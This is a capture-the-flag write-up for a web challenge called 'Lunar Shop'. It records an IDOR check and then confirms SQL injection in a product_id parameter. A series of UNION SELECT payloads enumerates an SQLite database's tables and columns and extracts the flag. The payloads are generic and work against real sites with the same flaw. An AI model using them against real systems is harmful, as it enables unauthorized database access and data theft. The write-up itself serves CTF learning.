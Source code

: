 #### Lunar Shop
- points earned: 10 

#### Notes
- clicking on one of the products at `/products` brings you to a url like `https://meteor.sunshinectf.games/product?product_id=1`
- I first manually checked for IDOR by substituting `1` for numbers in the range `1-11`.  No products are returned above 11.
- Before scripting something to go further on the IDOR I checked for SQLI.
- using something like `?product=1'` gives me an error. `[ Error occured. --> unrecognized token: "';" ]`
- Using something like `?product_id=1% or 1=1-- ` returns a single result.
- Using something like `?product_id=1 and 1=0-- ` returns no results.
- Using something like `0 union select 1,2,3,4--` returns a single result with `1`, `2`, `3`, and `4` in the expected places.
- This confirms SQLI and indicates that the page will only show 1 result.

#### Solution
- `?product=0 union select sqlite_version(),2,3,4-- ` returns a version which tells me that this is an sqlite DB.
- `?product=0 union select tbl_name,2,3,4 from sqlite_master where type='table'-- ` returns a single table `flag`.
- `?product=0 union select group_concat(name),2,3,4 from pragma_table_info('flag')-- ` returns 2 column names `id` and `flag`
- `?product=0 union select flag,2,3,4 from flag-- `reveals the flag.